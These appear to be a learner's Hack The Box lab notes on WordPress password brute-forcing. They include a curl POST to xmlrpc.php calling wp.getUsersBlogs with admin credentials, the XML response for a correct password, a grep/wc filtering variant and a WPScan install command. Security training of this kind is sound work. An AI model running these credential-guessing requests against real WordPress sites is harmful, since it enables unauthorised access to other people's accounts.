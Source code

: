 -------------------
## Login 
Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the `xmlrpc.php` page.

If our POST request against `xmlrpc.php` contains valid credentials, we will receive the following output:

```bash
Noxxsick@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

*To Filter Results you can use the `grep` and `wc` command*

```bash
Noxxsick@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php | grep <name>  | wc -l 
```

----------
## WPScan
WPScan is a great tool that automates everything we have done manually, we can use it as it, but its recommended to get an api token from their website [Link](https://wpscan.com/)
we can install WPScan with the following command
```bash
gem install wpscan
```
